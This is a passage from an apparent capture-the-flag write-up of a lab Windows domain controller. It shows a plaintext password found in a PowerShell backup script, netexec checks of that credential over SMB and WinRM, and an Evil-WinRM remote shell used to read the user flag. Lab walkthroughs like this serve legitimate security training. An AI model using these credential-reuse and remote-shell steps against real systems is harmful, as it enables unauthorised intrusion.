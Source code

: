 ```

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

### WinRM

#### Validate Creds

The creds work for both SMB and WinRM:

```

oxdf@hacky$ netexec smb CICADA-DC -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' 
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt 
oxdf@hacky$ netexec winrm CICADA-DC -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' 
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)

```

#### Shell

I’ll connect with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

oxdf@hacky$ evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>

```

And grab the user flag:

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\desktop> type user.txt
ea4481e2************************

```
